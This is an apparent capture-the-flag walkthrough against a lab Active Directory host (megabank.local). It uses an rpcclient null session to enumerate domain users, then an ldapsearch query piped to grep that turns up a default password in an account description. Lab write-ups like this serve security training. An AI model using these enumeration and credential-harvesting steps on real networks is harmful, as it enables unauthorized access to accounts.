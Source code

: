Due to a poorly configured rpc, we can use rpcclient to connect to the machine using a blank username

```jsx
rpcclient 10.10.10.169 -U ""
rpcclient $> 
```

- U - username

We can then run "enumdomusers" to enumerate the users

```jsx
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

Using ldapsearch I was able to enumerate users and grep for passwords

```jsx
ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" '(objectClass=person)'| grep -i pass
```

- h - host
- x - Simple Authentication
- b - base dn for search

We can then pipe that into grep

```jsx
...

badPasswordTime: 0
description: Account created. Password set to Welcome123!
badPasswordTime: 132345217418993102
badPasswordTime: 0

...
```
